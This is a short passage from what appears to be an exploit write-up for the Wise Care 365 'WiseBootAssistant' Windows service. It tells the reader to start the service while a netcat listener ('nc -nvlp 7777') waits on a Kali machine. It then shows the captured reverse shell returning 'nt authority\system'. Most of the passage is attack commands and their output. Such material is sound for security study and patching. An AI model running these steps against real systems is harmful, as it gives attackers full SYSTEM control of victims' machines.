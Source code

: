 ```
The service did not respond to the start or control request in a timely fashion.


C:\Program Files (x86)\Wise>

```

- While you start the service `sc start WiseBootAssistant` listen to your kali via `nc -nvlp 7777`
- Now you got the nt authority system
```
┌──(root㉿kali)-[/transfer]
└─# nc -nvlp 7777
listening on [any] 7777 ...
connect to [192.168.64.4] from (UNKNOWN) [192.168.64.7] 49705
Microsoft Windows [Version 10.0.19043.928]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

```